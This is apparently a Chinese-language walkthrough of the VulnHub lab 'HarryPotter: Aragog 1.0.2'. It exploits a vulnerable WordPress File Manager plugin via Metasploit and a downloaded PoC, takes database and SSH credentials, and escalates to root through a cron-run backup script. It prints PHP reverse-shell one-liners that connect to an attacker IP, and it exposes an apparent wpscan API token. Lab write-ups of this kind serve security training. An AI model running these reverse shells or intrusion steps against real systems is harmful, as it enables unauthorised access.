

# HarryPotter-Aragog-1.0.2

> 靶机文档：[HarryPotter: Aragog (1.0.2)](https://www.vulnhub.com/entry/harrypotter-aragog-102,688/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/harrypotter/Aragog-1.0.2.ova)


## 方式一

### 信息收集

#### 主机发现

```bash
 sudo arp-scan -l
```


#### 端口扫描


#### 目录扫描


看到这里扫出来目录中，**index.html**，**javascript**, **server-status**,**blog**下的部分目录，并且出现了**wp-login.php**，这也说明了这是一个**wordpress**的cms框架


`index.html`


`blog`

网页没有样式


查看网页源码


做域名ip映射  `/etc/hosts`

域名：wordpress.aragog.hogwarts    IP：自己要访问靶机的机器的IP地址


发现是 WordPress 系统，用 wpscan 扫一下，加上[ api-token](https://wpscan.com/profile) 扫：

#### wpscan工具

> **`WPScan`是一个扫描`WordPress`漏洞的扫描器，可以扫描出`wordpress`的版本，主题，插件，后台用户以及爆破后台用户密码等**

```bash
wpscan --api-token=blsnsog49N5d0UwAIYACcXs3fKbchB7JpbCgNutJRHA --url http://192.168.80.143/blog -e p --plugins-detection aggressive
```


可以 发现该站点的插件中有很多漏洞，而且都是关于file Manager的

### 漏洞利用

#### msf工具

```bash
msf6 > search wordpress file manager
```


```bash
use 1
info
```

查看需要配置的信息


需要配置rhost（目标主机），targeturl（目标网址），这个目标网址会自动跟前面的目标主机拼接，所以我们直接把rhost设置为靶机的ip，targeturl设置成/blog即可，这里因为使用的是反向，所以还需要配置自己的主机ip


在`hagrid98`家目录下得到一串base64格式加密的数据


使用`BurpSuite`的`Decoder`功能解码


#### 数据库权限

找一下数据库的用户名密码，查看数据库中有没有可利用信息

在**/etc/wordpress**里可以打开**config-default.php**。这里记录了MySQL的用户名密码，可以用于登录数据库


登录数据库之前得首先得获取一个tty shell，不然我们在数据库中的命令就看不到回显（可以理解为将**非交互式shell**变成了**交互式shell**），输入下面命令即可拿到tty shell 

> 


使用得到用户名`root`，密码`mySecr3tPass`，来连接数据库


wordpress数据库保存的用户名和密码一般都放在**wp_users表**里面的


[在线解密网站](https://www.somd5.com/)


用户名：`hagrid98`，密码：`password123`

#### 用户权限

尝试`SSH远程连接`



#### root提权

使用`sudo `和`suid`查询后发现没有可利用的


然后查找备份文件，查看有没有`.sh`结尾的文件

```bash
find / -name '*.sh'
```


推测应该被写入了计划任务，这里我们尝试建立一个反弹shell的脚本并通过它这个计划任务来执行

> 在tmp文件下创建反弹shell的php脚本并命名为a.php，脚本代码如下

```php
<?php $sock=fsockopen("192.168.80.141 ",6868);exec("/bin/sh -i <&3 >&3 2>&3"); ?>
```


**/usr/bin/php**是php的执行文件的目录，这样才能执行php文件

其实也可以直接在`.backup.sh`里面直接写一个反弹shell

---

kali监听`6868`端口


拿到`root`后可以使用`crontab -l`，查看当前用户的计划任务列表


## 方式二

### 信息收集

#### gobuster扫描

```bash
└─$ gobuster dir -u http://192.168.80.143 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```


#### wpscan扫描

```bash
wpscan --api-token=blsnsog49N5d0UwAIYACcXs3fKbchB7JpbCgNutJRHA --url http://192.168.80.143/blog -e p --plugins-detection aggressive
```


### 漏洞利用

#### POC

访问`https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9`


`wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py`到本地

查看脚本的使用方法


[生成反弹 shell](http://shell.20xiaohai.cn/)到`payload.php`文件里

```php
php -r '$sock=fsockopen("192.168.80.141",6868);exec("/bin/sh -i <&3 >&3 2>&3");'
```


运行脚本，得到反弹shell地址


地址中多写了一个`/blog`，删除即可


等一会就反弹到了

